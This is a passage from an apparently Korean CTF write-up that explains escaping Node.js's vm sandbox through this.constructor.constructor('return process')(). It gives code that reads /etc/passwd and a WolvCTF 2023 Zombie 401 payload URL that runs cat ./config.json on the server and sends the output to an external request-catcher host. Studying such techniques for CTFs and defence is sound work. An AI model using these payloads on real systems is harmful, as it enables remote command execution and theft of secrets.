 ![Untitled](/assets/2023-03-29/Untitled 3.png)

직접적으로 process에 접근하는 것은 불가능하나, `this.constructor.constructor("return process")()`를 통해 VM code 외부의 constructor에 접근하고 해당 constructor의 process를 리턴하여 강제로 VM 환경 내에서도 process에 대한 접근을 가능하게 만듭니다.

여기서 this.~로 constructor에 접근이 가능한 이유는 해당 어플리케이션이 실행되면서 이미 VM context 외부에서 지정된 객체이기 때문입니다.

즉, VM 모듈 내의 `this.constructor.constructor("return process")()` 은 VM 모듈 외의 `process` 이므로 VM 모듈 외의 공격 스크립트를 그대로 작성하면 호스트 시스템 명령어 실행이 가능합니다.

```jsx
// outside of VM
process.mainModule.require('child_process').execSync('cat /etc/passwd').toString()
// inside of VM
this.constructor.constructor("return process")().mainModule.require('child_process').execSync('cat /etc/passwd').toString()
```

```jsx
//vm1.js
"use strict";
const vm = require("vm");

var tmp = vm.runInNewContext(`this.constructor.constructor("return process")().mainModule.require('child_process').execSync('cat /etc/passwd').toString()`);
console.log(tmp);
```

![Untitled](/assets/2023-03-29/Untitled 4.png)

커맨드 인젝션이 가능함을 확인했음에도 불구하고 시스템 명령어 실행이 불가능할 시, 해당 코드를 실행하는 부분을 잘 체크하고 에러코드 등을 확인하여 VM 환경 내에서 동작하는 스크립트라면 위의 방법을 통해 샌드박스 Breakout을 시도해볼 수 있습니다.

간혹, CTF 문제에서는 VM 모듈의 취약점을 활용하여 출제자의 의도와는 unintended 풀이로 빠르게 FLAG를 획득할 수 있는 상황도 존재합니다.

아래는 WolvCTF 2023의 Zombie 301, 401 문제 풀이와 unintended 풀이입니다

![Untitled](/assets/2023-03-29/Untitled 5.png)

문제에서 사용중인 zombie module에서 VM 모듈을 사용하고 있고 저희의 입력 값을 VM.runInContext()로 실행시켜주는 환경이었기 때문에 바로 익스플로잇이 가능하였습니다.

```jsx
https://zombie-401-tlejfksioa-ul.a.run.app/zombie?show=<script>location="https://dslhtie.request.dreamhack.games/?x="+this.constructor.constructor("return process.mainModule.require('child_process').execSync('cat ./config.json')")()</script>

https://zombie-401-tlejfksioa-ul.a.run.app/zombie?show=%3Cscript%3Elocation%3D%22https%3A%2F%2Fdslhtie.request.dreamhack.games%2F%3Fx%3D%22%2Bthis.constructor.constructor%28%22return%20process.mainModule.require%28%27child_process%27%29.execSync%28%27cat%20.%2Fconfig.json%27%29%22%29%28%29%3C%2Fscript%3E
```

참고) IrisCTF 2023 [web] metacalc 문제 풀이

[IrisCTF 2023-web-metacalc](https://velog.io/@yoobi/IrisCTF-2023-web-metacalc)
